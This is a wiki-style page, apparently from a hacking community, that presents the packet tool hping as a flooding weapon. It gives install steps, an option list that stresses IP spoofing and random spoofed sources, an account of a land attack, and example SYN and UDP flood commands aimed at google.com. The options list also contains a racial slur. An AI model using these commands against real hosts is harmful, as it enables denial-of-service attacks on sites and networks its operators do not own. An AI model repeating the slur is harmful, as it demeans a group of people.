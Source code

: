 A tool for custom-crafting packets. Can be used to flood almost any type of packet imaginable.

= Installation =

== Windows ==

If you're running Windows XP and it keeps crashing, set the "compatibility mode" for Windows 98.

[http://anonym.to/http://hping.org/hping2.win32.tar.gz Hping2 for Win32] (Includes source code and executable)

== Mac ==

[http://anonym.to/http://hping.org/macosx/hping2-macosx-rc2-bin Hping2 MacOSX Binary]

== Linux ==

[http://anonym.to/http://hping.org/hping3-20051105.tar.gz Hping3 Source Code]

Debian and Ubuntu users type

 sudo apt-get install hping3

Mandriva users type as root

 urpmi hping

= Usage =

Regardless of which '''Hping''' you get, the command to flood a target is as follows:

 '''hping'''[2 or 3] [TARGET] -p [PORT] -i u30000 [PACKET TYPE] [OTHER OPTIONS]

[TARGET] can be a URL or IP address [PORT] is the target port [PACKET TYPE] can be

* -S for SYN
* -A for ACK
* -S -A for SYN/ACK

OTHER OPTIONS:

* --udp to send UDP packets
* -q to suppress output - might make it a little faster
* -c [NUMBER] to limit to a certain number of packets
* the -i u30000 tells it to send packets 30 milliseconds apart - this is about as fast as windows XP can take it; unix/mac systems might be able to go lower. (-flood niggers)
* -a [IP] to spoof your IP address: it goes without saying that this is important, although you obviously won't receive reply packets. A land attack uses the target IP address as the spoofed source IP address.
* --rand-source gives each packet you send a randomly generated spoof IP address.

= Examples =

SYN flood google.com's port 80

 hping2 google.com -p 80 -i u30000 -S

UDP flood google.com:

 hping3 google.com -p 80 -i u30000 --udp

== Tutorial ==

http://www.darkc0de.com/tutorials/hpingtut.txt [currently down]

= External Links =

[http://anonym.to/http://hping.org/ '''Hping''' Homepage]
[http://anonym.to/http://wiki.hping.org/ '''Hping''' Wiki] (Currently Down)

[[Category:Tools]]